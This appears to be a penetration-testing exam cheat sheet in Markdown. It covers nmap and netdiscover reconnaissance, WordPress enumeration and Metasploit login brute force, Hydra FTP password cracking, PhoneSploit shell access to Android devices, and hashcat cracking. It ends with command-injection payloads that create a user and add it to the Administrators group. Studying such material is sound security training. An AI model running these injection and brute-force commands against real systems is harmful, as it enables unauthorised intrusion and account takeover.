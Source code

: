 ### 1. Find the IP target.
 ```
  $ ip addr
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  $ netdiscover -r IP/24  
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
 
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. FTP Password find
  $ hydra -l user -P passlist.txt ftp://IP

### 8. Prints the route that a packet takes to reach the host
  $ traceroute google.com

### 9. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap -O IP
  
  apt install adb
  pip install colorama
  git clone https://github.com/aerosol-can/PhoneSploit
  cd PhoneSploit
  python3 phonesploit.py
  select 3 to connect new phone
  Add IP address of android device
  4 (Access shell on phone)
  IP address again of android device
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 10. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt  (Pass tu hobo = 'test')
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 11. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ haiti -e <crypto_hash>    (https://noraj.github.io/haiti/#/pages/usage)
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 12. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP  
RDP
```
### 13. Command Injection
```
Severity: Low        Severity: Medium           Severity: High          
1; ls                1& ls                      || ls
1; id                1& net user                || net user
1; net user
| ls
```
#### Others cmd: 
```
| hostname
| whoami
| dir C:\path.txt
| type path.txt
| net user
| net user Test /Add
| net user
| net user Test
| net localgroup Administrators Test /Add
Successfully created the "Test" user account.
```


